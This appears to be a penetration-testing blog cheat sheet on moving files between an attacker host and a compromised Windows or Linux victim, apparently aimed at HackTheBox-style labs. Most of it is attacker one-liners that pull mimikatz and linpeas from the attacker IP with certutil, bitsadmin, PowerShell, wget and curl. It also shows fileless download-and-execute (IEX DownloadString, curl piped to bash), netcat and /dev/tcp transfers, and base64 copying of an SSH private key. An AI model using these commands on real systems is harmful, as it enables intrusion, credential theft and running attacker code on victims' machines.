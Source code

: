 ```yaml
---
title: "Cheat Sheet - File Transfer"
author: Nasrallah
description: ""
date: 2025-05-11 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, linux, windows]
img_path: /assets/img/cheatsheet
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## Setting up servers

This section covers the different ways to setup our servers to transfer files.

### HTTP

The following commands are used to setup an HTTP server.

```bash
python3 -m http.server 8000
python2.7 -m SimpleHTTPServer
ruby -run -e httpd . -p 80
php -S 0.0.0.0:80
```

To setup an HTTPS server we can use openssl.

First we create a certificate using the following command:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

The following command listens on port 8000 and server the file `linpeas.sh`

```bash
openssl s_server -quiet -accept 8000 -cert certificate.pem -key key.pem < linpeas.sh
```

### SMB server

To setup an SMB server we can use `Impacket`

```bash
sudo impacket-smbserver share -smb2support ./
```

To add authentication with a username and a password we can add the following options.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### SSH server

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Upload server

The following command is used to setup `uploadserver` which is a python module that acts as an upload server that is used to transfer files from the victims machine to our attacking machine.

To install the module use the following command.

```bash
pipx install uploadserver
```

Setup a server.

```bash
uploadserver
```

To upload files using HTTPS we can create a certificate using `openssl` then instruct `uploadserver` to use it.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

uploadserver 443 --server-certificate ~/server.pem
```

> Note that the certificate should be at a different directory from where you're running the command.

Before we start, let's consider the attacker's ip to be `10.10.10.10` and the victim's ip is `9.9.9.9`

## Windows File Transfer

### PowerShell/cmd

```cmd
certutil -urlcache -f http://10.10.10.10/mimikatz.exe .\mimikatz.exe
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:/nc.exe C:\Windows\Temp\nc.exe
```

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
(New-Object Net.WebClient).DownloadFileAsync('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
iwr "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
curl "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
wget "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
```

Other option for `WebClient` are: [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0) - [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0) - [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0) - [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0) - [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0) - [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)`

To Download and execute without writing to the disk we can use IEX(**Invoke Expression**).

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1') | IEX
```

#### Base64

For small file we can use base64 encoding for easy transfer.

We encode the data like this:

```bash
cat id_rsa |base64 -w 0;echo
```

We copy the base64 string and paste it to the following command to decode it and save it to a file.

```cmd
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("BASE64+STRING+HERE"))
```

### SMB

Now we can copy files to the windows target.

```powershell
copy \\10.10.10.10\\share\\mimikatz.exe
```

For errors like "security policy" or "path doesn't exist" use the server with credentials and mount the share.

```shell
net use \\10.10.10.10\\share /user:hacker hacker
copy \\10.10.10.10\\share\\mimikatz.exe
```

## Linux File Transfer

### Through HTTP

The next commands are used to download `linpeas.sh` from the compromised machine.

```shell
wget http://10.10.10.10/linpeas.sh
curl http://10.10.10.10/linpeas.sh -o linpeas.sh
```

Download files using code

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
python2.7 -c 'import urllib;urllib.urlretrieve ("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
php -r 'file_put_contents("file.txt",file_get_contents("http://10.10.14.189/file.txt"));'
php -r 'const BUFFER = 1024; $fremote = fopen("http://10.10.10.10/linpeas.sh", "rb"); $flocal = fopen("linpeas.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("http://10.10.10.10/linpeas.sh")))'
perl -e 'use LWP::Simple; getstore("http://10.10.10.10/LinEnum.sh", "linpeas.sh");'
```

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3 | sed '1,/^\r$/d' > linpeas.sh
```

Execute the file without writing to the disk

```bash
wget -qO- http://10.10.10.10/linpeas.sh | bash
curl -s http://10.10.10.10/linpeas.sh | bash
```

### Netcat listener

Attacking machine listening.

```bash
nc -lvnp 1234 -q 0 < linpeas.sh
```

Target machine connecting

```bash
nc 10.10.10.10 1234 > linpeas.sh
cat < /dev/tcp/10.10.10.10/1234 > linpeas.txt
```

Target machine listening

```bash
nc -lvnp 1234 > linpeas.sh
```

Attacking machine connecting

```bash
cat linpeas.sh > /dev/tcp/9.9.9.9/1234
nc 9.9.9.9 1234 < file.txt
```

### SSH/SCP

```bash
scp attacker@attacker:/home/attacker/linpeas.sh . 
```

### Exfiltration w/ uploader

Working on it...

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
